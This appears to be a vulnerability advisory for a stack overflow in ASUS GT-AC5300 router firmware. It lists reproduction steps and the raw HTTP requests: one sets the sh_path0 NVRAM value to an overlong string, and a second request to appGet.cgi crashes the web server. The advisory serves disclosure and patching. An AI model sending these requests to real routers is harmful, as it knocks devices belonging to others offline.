 # ASUS GT-AC5300 stack overflow #

**vender** ：ASUS

**Firmware version**: <=3.0.0.4.384_32738

**Exploit Author**: bigbear@galaxylab.org

**Vendor Homepage**: https://www.asus.com

**Hardware Link**:https://www.asus.com/Networking/ROG-Rapture-GT-AC5300/HelpDesk_BIOS/

## Vul detail ##

Reproduction Steps:
1. Go to your wi-fi router gateway [i.e: http://router.asus.com]
1. login with admin
1. Set the value of the variable sh_path0
```
ReqRespType=VisSetNVRAM&NVRAMName=sh_path0&NVRAMValue=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX HTTP/1.1
Host: router.asus.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Referer: http://192.168.20.1/
Cookie: asus_token=1409814431151610434794402120814; clickedItem_tab=0
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close
Upgrade-Insecure-Requests: 1

```
1. Send request to crash the program。
```
GET /appGet.cgi?hook=select_list("Storage_x_SharedPath") HTTP/1.1
Host: router.asus.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
X-Requested-With: XMLHttpRequest
Referer: http://router.asus.com/GameDashboard.asp
Cookie: asus_token=95MZ36vhaRXUVNrDmY1BSZmuUzcloDk; clickedItem_tab=0
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close

```
1. The bug is in the source code file https://github.com/RMerl/asuswrt-merlin/blob/master/release/src/router/httpd/web.c
![](sourcecode.png)